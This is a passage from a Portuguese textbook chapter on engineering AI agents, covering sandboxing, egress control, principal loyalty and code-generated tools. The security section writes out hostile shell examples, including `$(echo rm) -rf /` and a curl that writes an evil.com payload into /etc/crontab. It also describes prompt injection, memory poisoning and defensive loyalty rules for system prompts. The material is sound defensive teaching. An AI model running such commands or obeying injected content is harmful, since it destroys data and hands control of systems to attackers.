Isso também explica por que agentes comerciais de código fechado, como o Claude Cowork — agente de propósito geral da Anthropic voltado ao trabalho intelectual, que reutiliza a arquitetura agêntica do Claude Code e é capaz de ler e gravar arquivos locais e concluir tarefas complexas em vários aplicativos de escritório — adotam estratégias conservadoras de permissões. Diante da injeção de prompts, a filtragem de entrada, por si só, é praticamente ineficaz. O objetivo não é reconhecer todos os ataques, mas garantir que, mesmo após uma injeção, o agente não tenha a oportunidade de executar uma ação perigosa. É exatamente aí que entram os guardrails em três camadas apresentados no Capítulo 1. Em comparação com outros agentes, os agentes de programação precisam dar atenção especial a:

- **Análise semântica de comandos** — A explosão combinatória dos comandos Shell torna inúteis as listas de bloqueio por palavra-chave; é preciso compreender, no nível semântico, o efeito real de cada comando, como será detalhado adiante nesta seção.
- **Isolamento do sandbox e controle da saída de rede** — A execução de código é uma superfície de ataque exclusiva dos agentes de programação; as escolhas de engenharia relativas aos níveis de isolamento e às estratégias de saída são apresentadas adiante nesta seção.
- **Defesa entre sessões para a memória persistente** — Este capítulo amplia a análise da Tríade Letal para abranger a memória persistente: o conteúdo gravado na memória de longo prazo deve passar pela mesma avaliação de confiança aplicada ao conteúdo externo, para impedir que instruções maliciosas permaneçam latentes em `MEMORY.md` e entrem em vigor posteriormente.

Essas três proteções se situam, respectivamente, nas camadas de verificação, execução e dados, complementando o sistema de defesa dos dois capítulos anteriores. Essas estratégias não eliminam totalmente o risco, mas podem reduzir a superfície de ataque do agente.

**Isolamento como última linha de defesa: escolhas de engenharia para o sandbox de execução de código.**

- **Controle da saída de rede.** Este é o aspecto mais fácil de negligenciar e, ao mesmo tempo, o mais crítico: por padrão, não deve haver acesso à rede; quando necessário, um proxy com lista de permissões libera apenas um conjunto limitado de destinos, como repositórios de pacotes, sites de documentação e APIs exigidas explicitamente pela tarefa. Retomando o item 3 da Tríade Letal — “capacidade de comunicação externa” —, o controle da saída de rede é precisamente a defesa contra esse risco na camada de execução. Mesmo que uma injeção de prompt seja bem-sucedida e um código malicioso leia dados sigilosos dentro do sandbox, sem um canal de saída esses dados não poderão ser exfiltrados.
- **Escopo do isolamento do sistema de arquivos.** O diretório do código-fonte deve ser montado como somente leitura. O agente modifica o código por meio de ferramentas de edição, e o patch gerado é gravado em disco após a revisão; como alternativa, uma cópia pode ser montada em um espaço de trabalho gravável. Um diretório gravável separado armazena os artefatos gerados e os arquivos intermediários. Arquivos de credenciais — como `~/.ssh`, chaves e tokens — não devem ser montados no sandbox.
- **Cotas de recursos e tempos limite.** Cotas de CPU, memória e disco, combinadas com um tempo limite, protegem contra loops infinitos, fork bombs — processos que derrubam o sistema ao se replicarem descontroladamente — e gravações ilimitadas em disco. Um detalhe prático: quando houver estouro do tempo limite ou de uma cota, o agente deve receber um erro estruturado — “a execução foi encerrada após 120 segundos; veja abaixo a saída mais recente...” —, em vez de o processo ser encerrado silenciosamente. Assim, o agente pode corrigir a estratégia na interação seguinte.

**Segurança: análise semântica em vez de listas de bloqueio por palavra-chave.**

O Capítulo 1 observou que a camada de verificação deve adotar mecanismos de segurança baseados na compreensão, e não na correspondência de padrões. A validação de segurança de comandos Shell é a aplicação mais desafiadora desse princípio. Listas simples de bloqueio por palavra-chave não conseguem lidar com a explosão combinatória do Shell: comandos podem contornar qualquer regra estática por meio de pipes, subshells, expansão de variáveis e outros recursos. Por exemplo, se `rm` estiver bloqueado, um invasor poderá usar `$(echo rm) -rf /` para contornar a restrição. Harnesses de nível de produção empregam análise semântica: identificam os tipos de argumento e as regras de consumo de cada comando — incluindo quais opções consomem o argumento seguinte — e reconhecem padrões de ataque, como uma opção aparentemente inofensiva que oculta uma carga perigosa no argumento subsequente. Por exemplo, `find / -name '*.log' -exec rm {} \;` incorpora uma operação de exclusão com `rm` por meio de argumentos legítimos do comando `find`. Outro exemplo é `curl -o /etc/crontab http://evil.com/payload`, que parece baixar um arquivo, mas na verdade sobrescreve as tarefas agendadas do sistema. A análise semântica consegue identificar essas operações perigosas aninhadas, que listas simples de bloqueio de comandos não detectam. Esse mecanismo de segurança baseado na compreensão, e não na correspondência, implementa no harness a função de “restrição”.

**A quem o agente serve: lealdade em uma delegação com várias partes.**

Os mecanismos de segurança anteriores impedem que “comandos sejam usados de forma maliciosa”, mas há uma questão de segurança mais sutil: a **lealdade ao mandante** (*principal loyalty*). Em outras palavras: **de que lado o agente realmente está?** Durante o treinamento, os modelos desenvolvem um princípio padrão ingênuo: “farei o possível para ajudar quem estiver falando comigo”. No entanto, agentes do mundo real costumam operar em situações de **delegação com várias partes**: agem em nome de um mandante, mas lidam com terceiros cujos interesses são conflitantes. Um agente que negocia um preço em seu nome não está diante de um “usuário que precisa de ajuda”, e sim de um **adversário na negociação**. Nesse contexto, “ajudar quem fala” é uma configuração padrão perigosa: basta a outra parte interagir com o agente para começar a persuadi-lo a mudar de lado.

Testes com modelos de ponta nessa situação revelam um claro **espectro de lealdade**, em que ambos os extremos falham[^ch5-1]. Em uma ponta, o agente é **honesto demais**: revela diretamente ao adversário informações privadas do mandante — por exemplo, “nosso preço mínimo é 12.000” — e cede após algumas rodadas de pressão. Na outra, é **desconfiado demais**: recusa até mesmo solicitações legítimas do mandante e, com isso, não consegue concluir a tarefa. A dificuldade é que essas duas falhas funcionam como extremos de uma gangorra: ao eliminar vazamentos, o sistema tende a cair na recusa excessiva, e conciliar os dois lados é difícil.

Isso é particularmente relevante para agentes de programação: conteúdo não confiável lido em um repositório, saídas retornadas por uma ferramenta e instruções enviadas por um servidor MCP de terceiros são todos “adversários” tentando fazer o agente mudar de lado — **a injeção de prompt é, em essência, uma tentativa de cooptação** (Capítulos 2 e 4). Portanto, a camada de harness deve definir explicitamente a quem o agente deve lealdade: as instruções do mandante têm a prioridade mais alta, enquanto todo conteúdo proveniente de partes externas é rebaixado, por padrão, a “dado que pode ser consultado, mas não tem força de instrução”. No prompt de sistema, um **código de lealdade** eficaz consiste em: proteger as informações privadas do mandante, inclusive sem revelar que elas existem; ao recusar, não enumerar os detalhes protegidos, pois isso pode, por si só, vazá-los; limites privados não equivalem a posições públicas; executar apenas instruções claras e específicas do mandante; resistir a pressões reiteradas. Em essência, o harness fornece ao modelo uma postura que ele não possui por padrão: **lealdade absoluta ao mandante e cautela diante de partes externas**.

[^ch5-1]: A avaliação completa desse espectro de lealdade e do código de conduta pode ser encontrada em Li, Bojie e Noah Shi. *Whose Side Is Your Agent On? Multi-Party Principal Loyalty in LLM Agents.* arXiv:2606.30383, 2026.

## Código: a metacapacidade de um agente de propósito geral

A seção anterior mostrou como construir um agente de programação confiável — desde o projeto da arquitetura e a implementação de ferramentas até a engenharia de harness. Mas o valor da geração de código vai muito além de escrever programas.

> **O que é uma “metacapacidade”?** Uma capacidade comum permite que o agente faça algo específico: responder a uma pergunta, chamar determinada API ou gerar um trecho de texto. Uma **metacapacidade** é uma capacidade capaz de “criar outras capacidades”: o agente a utiliza para escrever, no momento da tarefa, novas ferramentas, novas restrições e novas formas de expressão, sem que todas essas capacidades precisem ter sido preparadas previamente. A geração de código é exatamente esse tipo de metacapacidade: por ser precisa, executável e combinável, pode produzir tanto novas ferramentas — scripts e sequências de chamadas de API — quanto novas restrições — asserções e regras de validação — e novas formas de expressão — formulários HTML, apresentações em PPT e quadros de vídeo.

Por isso, o papel do código em um sistema agêntico vai muito além de “escrever programas”. As próximas seis seções apresentam seis aplicações dessa metacapacidade para além da programação. Não se trata apenas de uma lista: elas são organizadas de dentro para fora, conforme o objeto sobre o qual a metacapacidade atua:

1. **O próprio pensamento** — usar código para substituir o raciocínio em linguagem natural, mais sujeito a erros (ferramentas de pensamento).
2. **Regras de negócio** — codificar políticas vagas como restrições executáveis (restrições de regras de negócio).
3. **Apresentação de conteúdo** — gerar apresentações em PPT, vídeos e artefatos de visualização (geração multimídia).
4. **Interfaces de sistemas** — conectar APIs heterogêneas e adaptar-se automaticamente à evolução dos formatos de dados (adaptadores de sistemas).
5. **Interfaces de usuário** — construir dinamicamente formulários e interfaces interativas (UI generativa).
6. **O próprio agente** — usar código para criar ou reparar novos agentes, viabilizando a autoinicialização.

### Código como ferramenta de pensamento

Os LLMs são extraordinários na compreensão e geração de linguagem natural, mas têm limitações fundamentais em cálculos precisos, manipulação simbólica e dedução lógica rigorosa. Isso ocorre porque o pensamento de um modelo é inerentemente probabilístico e aproximado, enquanto problemas matemáticos e lógicos exigem respostas determinísticas e exatas. Uma comparação concreta ilustra essa diferença:

```text
Problem: "A class has 40 students. 60% take math, 45% take physics, and 25% take both.
          How many students take only physics but not math?"

Pure Natural Language Reasoning (prone to errors):      Code Reasoning (precise and verifiable):
"60% take math = 24 students,                           math = int(40 * 0.60)    # 24
 45% take physics = 18 students,                        phys = int(40 * 0.45)    # 18
 25% take both = 10 students,                           both = int(40 * 0.25)    # 10
 Only physics = 24 - 10 = 14 students"                  only_phys = phys - both  # 8
→ Mistakenly subtracts from math count, answer wrong    → print(only_phys)  # 8 ✓
```

Deixe o LLM responsável por compreender o problema e escrever o código, e o interpretador de código, pelo cálculo preciso — essa divisão de trabalho permite que cada um faça o que sabe melhor.

Stephen Wolfram, criador do Mathematica, apresentou uma reflexão profunda sobre isso. Antes mesmo do surgimento dos LLMs, já existiam sistemas capazes de realizar cálculos matemáticos precisos — eles operavam por meio de **computação simbólica** (*Symbolic Computation*), isto é, processavam expressões usando símbolos matemáticos, em vez de valores numéricos aproximados. Por exemplo, uma calculadora convencional aproximaria $\sqrt{2}$ como 1,414, enquanto um sistema de computação simbólica preservaria a forma exata $\sqrt{2}$, convertendo-a em decimal apenas quando necessário. O Wolfram Alpha, criado por Wolfram, é um sistema desse tipo: o usuário insere um problema matemático, e ele retorna uma resposta exata. No entanto, sua compreensão de linguagem natural é bastante frágil e sua cobertura é limitada — ele depende de um analisador gramatical integrado, capaz de reconhecer apenas um conjunto restrito de formulações; uma pequena mudança na forma de expressar a pergunta pode fazer a análise falhar, e o sistema certamente não consegue lidar com raciocínio aberto em várias etapas. Os LLMs suprem justamente essa lacuna: são excelentes para compreender diferentes formas de expressão em linguagem natural, mas não para realizar cálculos precisos. O novo modelo de colaboração consiste em deixar o LLM responsável por compreender a pergunta do usuário em linguagem natural, identificar sua estrutura matemática ou lógica e traduzi-la para uma linguagem formal, como a linguagem do Mathematica ou a biblioteca SymPy do Python. Em seguida, essa representação é entregue a um mecanismo especializado de computação simbólica ou a um solucionador de restrições, que a executa para obter resultados precisos.

> **Experimento 5-3 ★★: Uso de ferramentas de geração de código para aprimorar a resolução de problemas matemáticos**
>
> **Objetivo do experimento**: Verificar o aumento da precisão do raciocínio matemático de um agente com o auxílio de um Code Interpreter.
>
> **Abordagem técnica**: Equipar o agente com uma sandbox Python que contenha bibliotecas matemáticas como sympy, numpy e scipy. Ao encontrar um problema matemático, o agente o formaliza como código Python: sympy para computação simbólica, como cálculo e resolução de equações; scipy para otimização numérica; e numpy para operações matriciais. O código gerado é executado na sandbox para retornar resultados precisos.
>
> **Critérios de aceitação**: Realizar a avaliação com problemas no estilo AIME, inspirados na American Invitational Mathematics Examination. Comparar a precisão do raciocínio baseado apenas em cadeia de raciocínio com a do raciocínio auxiliado por código; o modo auxiliado por código deve alcançar precisão significativamente maior. Verificar se o código usa corretamente as bibliotecas matemáticas e se o processo de resolução apresenta lógica clara.
>

> **Experimento 5-4 ★★: Uso de ferramentas de geração de código para aprimorar o raciocínio lógico**
>
> **Objetivo do experimento**: Avaliar a capacidade do agente de realizar raciocínio lógico com o auxílio de código para resolução de restrições.
>
> **Abordagem técnica**: Equipar o agente com um Code Interpreter que contenha a biblioteca python-constraint. O agente traduz problemas de lógica, como os de cavaleiros e mentirosos, em modelos formais de restrições: identifica as variáveis, como a identidade de cada ilhéu; codifica como restrições regras como “os cavaleiros dizem a verdade”; e aciona o solucionador para encontrar uma atribuição que satisfaça todas as restrições.
>
> **Critérios de aceitação**: Realizar a avaliação com o [conjunto de dados K&K Puzzle](https://huggingface.co/datasets/K-and-K/perturbed-knights-and-knaves). O modo auxiliado por código deve alcançar precisão superior a 90% na resolução, significativamente maior que a do modo baseado apenas em raciocínio.
>

Esse experimento também revela um padrão mais geral: há uma relação de compensação entre o modelo e o harness. Quando o modelo é suficientemente robusto, o harness pode ser mais enxuto — o próprio modelo raciocina corretamente, e o ganho proporcionado por um solucionador em código diminui. Quando o modelo é mais fraco, o harness precisa assumir mais tarefas, delegando o raciocínio lógico essencial ao código e aos solucionadores de restrições para garantir a correção. Por isso, o experimento usa deliberadamente um modelo mais fraco, a fim de acentuar o contraste: em um modelo fraco, o modo baseado apenas em raciocínio erra os cálculos com frequência, enquanto o auxílio de código eleva consideravelmente a precisão; já em um modelo de raciocínio suficientemente robusto, o modo baseado apenas em raciocínio muitas vezes resolve todos os problemas, e o ganho do auxílio de código converge para perto de zero. Portanto, o grau de complexidade do harness depende dos limites de capacidade do modelo disponível — uma premissa facilmente ignorada ao avaliar qualquer técnica de agente: o mesmo harness, combinado com modelos de capacidades diferentes, pode levar a conclusões completamente opostas.

### Código como restrição para regras de negócio

Esta seção é uma resposta direta à seção anterior sobre engenharia de harness. Um dos princípios fundamentais do harness é “Restrições: codificadas, não documentadas” — transformar regras expressas em documentação de linguagem natural em código executável, tornando-as restrições obrigatórias ao comportamento do sistema, e não meras diretrizes. A geração de código permite que o agente realize essa transformação de forma autônoma.

Regras de negócio, fluxos de trabalho e lógicas de decisão descritos apenas em linguagem natural costumam ser repletos de ambiguidades. O que é uma “solicitação de reembolso razoável”? O que caracteriza uma “emergência”? É difícil delimitar esses conceitos em linguagem natural — “reembolso permitido em até sete dias após a compra” parece claro, mas são dias corridos ou úteis? “Compra” se refere ao momento do pedido ou ao envio? Em contrapartida, o código oferece uma representação do conhecimento executável e sem ambiguidades: ou é executado com sucesso ou gera um erro; não há meio-termo.

**Expressão precisa de regras de negócio complexas.**

**Regras em linguagem natural e regras codificadas: complementares, não intercambiáveis**

Escrever regras no prompt de sistema permite que o modelo **explique as políticas** aos usuários, **identifique alternativas compatíveis com elas** — por exemplo, “remarcar em vez de cancelar” — e faça uma avaliação preliminar da viabilidade antes de chamar uma ferramenta.

Codificar regras como ferramentas de validação oferece três vantagens: **lógica de decisão precisa e sem ambiguidades**; **execução determinística**, de modo que a mesma entrada sempre produza a mesma saída; e tratamento eficaz de **combinações complexas de regras**, como lógica booleana com múltiplas condições, cálculos de tempo e validação entre diferentes fontes de dados.

Na prática, as duas abordagens devem ser usadas em conjunto: o prompt de sistema contém regras em linguagem natural para facilitar a compreensão e a comunicação, enquanto os pontos de decisão críticos contam com ferramentas de validação codificadas que atuam como “guardiãs” da conformidade.

O verdadeiro valor das regras codificadas não está na eficiência no uso de tokens, mas em **evitar erros irreversíveis**. Cancelar um pedido, transferir recursos ou excluir dados são ações que talvez não possam ser desfeitas depois de executadas. A validação codificada estabelece uma última linha de defesa antes da operação, e o valor dessa proteção supera em muito seu custo de implementação.

**Combinação de validação e execução: checklists orientam o raciocínio; a validação pelo ground truth controla o acesso**

Em vez de criar uma ferramenta de validação separada, inclua a validação na própria ferramenta de execução. Considere a política de cancelamento de uma companhia aérea no τ-bench, benchmark criado para avaliar o uso de ferramentas e a conformidade com políticas em cenários simulados de atendimento ao cliente nos setores aéreo e de comércio eletrônico:

```python
def cancel_reservation(
    reservation_id: str,
    cancellation_reason: str,        # "change_of_plan", "airline_cancelled", "other"
    expected_cabin_class: str = None,    # Optional: for model self-check; server uses database ground truth for verification
    expected_has_insurance: bool = None  # Optional: for model self-check; same as above
) -> dict:
    """
    Cancel a flight reservation.

    Cancellation policy (enforced server-side based on database ground truth):
    - Rule 1: Reservations with any used segments cannot be cancelled
    - Rule 2: Reservations can be unconditionally cancelled within 24 hours of booking
    - Rule 3: Flights cancelled by the airline can always be cancelled
    - Rule 4: Business class can always be cancelled
    - Rule 5: Basic economy and economy require travel insurance to be cancelled

    Before calling, please query the order details and check each rule above one by one. The expected_* parameters
    record the basis for your judgment. The server compares them with authoritative data for auditing, but they do
    not affect the policy decision.
    """
    # All policy facts are read from the database; never trust values reported by the model
    r = db.get_reservation(reservation_id)
    now = server_clock.now()  # Server clock, not provided by the model

    # Log a warning if the model's self-reported value does not match the ground truth, to detect erroneous beliefs or potential injection
    if expected_cabin_class is not None and expected_cabin_class != r.cabin_class:
        log_mismatch(reservation_id, "cabin_class", expected_cabin_class, r.cabin_class)
    if expected_has_insurance is not None and expected_has_insurance != r.has_insurance:
        log_mismatch(reservation_id, "has_insurance", expected_has_insurance, r.has_insurance)

    if r.any_segment_used:
        return {"success": False, "reason": "Cannot cancel with used segments"}

    hours_since_booking = (now - r.booking_time).total_seconds() / 3600
    if hours_since_booking < 0:
        return {"success": False, "reason": "Booking time is in the future"}
    if hours_since_booking <= 24:
        execute_cancellation(reservation_id)
        return {"success": True, "reason": "Cancelled within 24-hour window"}

    if r.flight_status == "cancelled_by_airline":
        execute_cancellation(reservation_id)
        return {"success": True, "reason": "Airline cancelled flight"}

    if r.cabin_class == "business":
        execute_cancellation(reservation_id)
        return {"success": True, "reason": "Business class cancellation"}

    if r.cabin_class in ["basic_economy", "economy"]:
        if r.has_insurance:
            execute_cancellation(reservation_id)
            return {"success": True, "reason": f"{r.cabin_class} with insurance"}
        return {"success": False, "reason": f"{r.cabin_class} requires insurance"}

    return {"success": False, "reason": "Does not meet cancellation policy"}
```

O valor desse projeto deve ser compreendido em dois níveis.

**Primeiro nível: parâmetros como checklist de raciocínio.** A descrição da ferramenta apresenta a política de cancelamento completa e exige que o modelo “consulte os detalhes do pedido e verifique cada condição antes da chamada”; os parâmetros opcionais `expected_*` também incentivam o modelo a explicitar os fundamentos de sua avaliação. Para preenchê-los, o modelo precisa primeiro chamar a ferramenta de consulta, obter os detalhes do pedido e verificar cada condição — portanto, o preenchimento desses parâmetros funciona como um **checklist obrigatório**. Ao constatar que a classe é econômica e que não foi adquirido seguro, o modelo provavelmente perceberá a Regra 5 enquanto prepara a chamada e, assim, **nem chegará a iniciá-la**. Em vez disso, informará diretamente ao usuário: “Não é possível cancelar uma passagem de classe econômica sem seguro. Considere adquirir um seguro antes de cancelar ou remarcar a viagem.” Esse nível orienta o raciocínio e reduz chamadas inválidas, mas não constitui uma barreira de segurança. Os valores `expected_*` são apenas declarações do próprio modelo, nunca fatos nos quais o servidor confia.

**Segundo nível: a validação do ground truth no servidor atua como guardiã.** Observe a principal decisão de projeto no código: a classe da cabine, a situação do seguro, o horário da reserva, o uso dos trechos e o status do voo são todos consultados pelo servidor no banco de dados; o horário atual vem do relógio do servidor. **Nenhum fato usado pela política provém dos parâmetros declarados pelo modelo.** Isso não é cautela excessiva: o modelo pode alucinar ou ser manipulado por injeção de prompt e, como mostrou a análise anterior da Tríade Letal, um agente que opera em um único contexto não consegue validar de forma confiável o próprio comportamento. Se `cabin_class`, `has_insurance` e até `current_time` fossem parâmetros preenchidos pelo modelo, um único valor incorreto — por engano ou indução — poderia contornar a guardiã. A última linha de defesa deve se apoiar em dados que o modelo não possa forjar. Isso está de acordo com a posição apresentada anteriormente de que “operações críticas exigem verificação independente”: independência não significa apenas usar um modelo separado, mas também uma fonte de dados independente.

Com isso, completa-se a proteção em três níveis: (1) as regras em linguagem natural no prompt de sistema facilitam a compreensão e a explicação; (2) as descrições das ferramentas e o projeto dos parâmetros funcionam como checklist, orientando o modelo a verificar explicitamente as condições antes da chamada; e (3) a validação codificada no servidor, baseada no ground truth do banco de dados, atua como guardiã final. Os dois primeiros níveis reduzem a ocorrência de erros, e o terceiro impede que eles se convertam em perdas irreversíveis.

> **Experimento 5-5 ★★: modelos pequenos melhoram a precisão na aplicação de regras por meio de conhecimento codificado**
>
> **Objetivo do experimento**: verificar se a codificação de regras de negócio complexas melhora significativamente a precisão e a consistência com que um modelo pequeno (Qwen3-4B) aplica essas regras.
>
> **Abordagem técnica**: desenvolver um experimento controlado com base no cenário de atendimento ao cliente de companhias aéreas do τ-bench. **Grupo de controle**: regras apenas em linguagem natural, com dependência do raciocínio do próprio modelo. **Grupo experimental**: proteção em três níveis — o prompt de sistema mantém as regras em linguagem natural; a descrição da ferramenta apresenta a política completa e usa parâmetros opcionais `expected_*` para orientar o modelo a verificar cada condição antes da chamada (checklist); internamente, a ferramenta realiza uma validação codificada com base no ground truth de um banco de dados simulado — todos os fatos da política são obtidos no banco de dados, o horário vem do relógio do servidor e não se confia nos parâmetros declarados pelo modelo. Métricas de avaliação: taxa de sucesso nas tarefas, número de violações das políticas, número de chamadas de ferramenta inválidas e experiência do usuário.
>
> **Resultados esperados**: o grupo experimental apresenta desempenho significativamente superior ao do grupo de controle. Mais importante, o modelo identifica de forma autônoma as violações da política ao preparar os parâmetros e oferece alternativas sem chamar a ferramenta, demonstrando o valor dos parâmetros como checklist. Por fim, mede-se a taxa de divergência entre os valores `expected_*` declarados pelo modelo e o ground truth do banco de dados, demonstrando por que a validação no servidor é necessária para detectar erros de raciocínio.
>

### Geração de conteúdo multimídia orientada por código

A criação de muitos documentos complexos consiste, em essência, na organização e apresentação de dados estruturados. Seja uma apresentação, um relatório técnico ou uma aplicação interativa, a estrutura subjacente é definida por código: HTML descreve a estrutura, CSS controla o estilo e JavaScript implementa a interatividade. Tradicionalmente, a criação de documentos depende de editores WYSIWYG com interface gráfica, pouco adequados aos agentes porque exigem interpretação visual e posicionamento preciso do ponteiro. Com a geração de código, os agentes contornam o desafio do posicionamento visual e obtêm controle preciso sobre os documentos: a posição, o estilo e o conteúdo de cada elemento são definidos com clareza e podem ser modificados e otimizados de forma programática.

**Agente de geração de PPT.**

Criar um PPT costuma ser uma tarefa demorada e trabalhosa. Uma apresentação acadêmica típica pode ter dezenas de slides, cada um exigindo um layout cuidadosamente elaborado, a síntese dos pontos principais e a seleção de gráficos adequados. Ao reformular a criação de PPTs como um problema de geração de código, porém, grande parte da complexidade desaparece. Frameworks modernos de apresentações, como o Slidev, adotam uma filosofia de design elegante: o conteúdo é definido em Markdown e HTML. Para criar um slide, bastam algumas linhas de marcação concisa, enquanto o framework cuida da renderização, do layout e das animações. Para um agente que domina a geração de código, esse é um cenário ideal.



No entanto, gerar o código não basta. **Depois de escrever o código, o agente não sabe qual é o resultado real da renderização**: conteúdo muito apertado, texto transbordando ou imagens com tamanho inadequado — nada disso pode ser identificado antes que os slides sejam efetivamente renderizados. Por isso, é necessário um mecanismo **Proposer-Reviewer** (mostrado na Figura 5-5), que atribui a geração de código e a revisão de qualidade a dois agentes independentes:

- O **Proposer Agent** é responsável por gerar o código Slidev, compreender a estrutura lógica do conteúdo e dividi-lo em slides adequados.
- O **Reviewer Agent** executa o código para renderizar cada slide como uma imagem, usa um Vision LLM — um modelo multimodal de grande porte capaz de “ver” imagens — para avaliar o resultado quanto à densidade de conteúdo, legibilidade, qualidade do layout e apelo visual, e gera **sugestões estruturadas de melhoria**. Em vez de observações vagas como “não ficou bom”, ele fornece orientações específicas e acionáveis, por exemplo: “Slide 3: conteúdo em excesso; recomenda-se dividi-lo” ou “Slide 7: a fonte do bloco de código está pequena demais; recomenda-se aumentá-la para 14 pt”. As sugestões incluem campos como número do slide, tipo de problema e gravidade.

O Proposer recebe o feedback, interpreta a intenção, modifica o código e envia a nova versão ao Reviewer. Esse ciclo continua até que a apresentação atenda ao padrão de qualidade ou seja atingido o número máximo de iterações, como cinco rodadas. “Atender ao padrão de qualidade” e “atingir o número máximo de rodadas” são exatamente os dois tipos de condição explícita de término exigidos pela engenharia de Loop: no primeiro caso, o Reviewer determina que o objetivo foi alcançado; no segundo, um limite de orçamento impede que o ciclo saia de controle.

O ciclo Proposer-Reviewer apresentado aqui segue o mesmo padrão do mecanismo de **aprovação prévia** do Capítulo 4: um agente gera e outro faz uma avaliação independente. As duas aplicações diferem em objetivo e fluxo de trabalho. No Capítulo 4, o padrão é usado para aprovar ou rejeitar uma única operação irreversível; aqui, ele promove a melhoria iterativa do conteúdo ao longo de várias rodadas, e o Reviewer tem acesso ao resultado renderizado, que o Proposer não vê. Os princípios fundamentais de design são os mesmos: restrições de objetivo compartilhadas, uso de famílias de modelos distintas para reduzir a probabilidade de erros semelhantes e inclusão do feedback como um evento especial na trajetória do Proposer. A **principal vantagem** de dividir o trabalho entre dois agentes, em vez de usar um ciclo com um único agente, está no **gerenciamento do contexto**: a cada rodada, o Reviewer processa apenas as imagens renderizadas da versão mais recente, sem interferência das versões anteriores; o Proposer acumula somente feedback textual estruturado, consumindo menos tokens e facilitando o raciocínio. Uma solução com um único agente precisaria acumular, no mesmo contexto, as imagens renderizadas de dezenas de slides ao longo de várias rodadas, excedendo rapidamente o limite de contexto. Esse mecanismo será reutilizado nos experimentos posteriores de edição de vídeo e visualização de logs. O Capítulo 10 explorará outros modos de colaboração multiagente além do paradigma Proposer-Reviewer.

> **Experimento 5-6 ★★: Geração automática de PPT a partir de artigos**
>
> **Objetivo do experimento**: Gerar automaticamente apresentações de alta qualidade a partir de artigos acadêmicos e verificar a eficácia do mecanismo Proposer-Reviewer no controle de qualidade da criação de conteúdo.
>
> **Abordagem técnica**: Usar o framework Slidev. O Proposer Agent lê o PDF do artigo, extrai a estrutura das seções, os principais argumentos e as figuras, planeja a estrutura do PPT e gera o código Slidev slide a slide. **Etapa principal**: O Reviewer Agent renderiza cada slide e captura uma imagem, depois usa um Vision LLM para avaliar o resultado e identificar transbordamento de texto, excesso de conteúdo e dimensionamento inadequado de imagens. O Proposer e o Reviewer iteram até que a apresentação atenda ao padrão de qualidade.
>
> **Critérios de aceitação**: Gerar de 10 a 20 slides que cubram as principais contribuições do artigo. Incluir pelo menos três figuras do artigo original, compatíveis com o texto que as acompanha. A renderização não deve apresentar transbordamento de texto, e o layout deve ser adequado. Comparar o consumo de contexto e a qualidade da geração entre a autorrevisão por um único agente e a divisão de trabalho Proposer-Reviewer.
>

> **Experimento 5-7 ★★: Geração automática de vídeos explicativos de artigos**
>
> **Objetivo do experimento**: Ampliar os recursos de geração de PPT, combinando os canais visual e auditivo para gerar automaticamente vídeos explicativos.
>
> **Abordagem técnica**: Com base no fluxo de geração de apresentações do Experimento 5-6, o agente também gera uma narração em linguagem falada para cada slide — orientando o espectador em vez de repetir o texto exibido —, usa TTS (síntese de fala a partir de texto) para sintetizar o áudio e combina as imagens dos slides com o áudio usando FFmpeg para produzir o vídeo final.
>
> **Critérios de aceitação**: Produzir um vídeo de 5 a 15 minutos no qual o tempo de exibição de cada slide corresponda precisamente à duração da narração, e o conteúdo narrado esteja alinhado aos elementos visuais.
>
>
> 
>
>

**Agente de edição de vídeo.**

Editar vídeos por meio de uma interface genérica de Computer Use apresenta um obstáculo fundamental: as interfaces gráficas dos softwares de edição são extremamente complexas, repletas de linhas do tempo, camadas e painéis de efeitos. O agente precisa localizar e manipular esses elementos com mouse e teclado, o que exige coordenadas exatas que os modelos têm dificuldade para produzir.

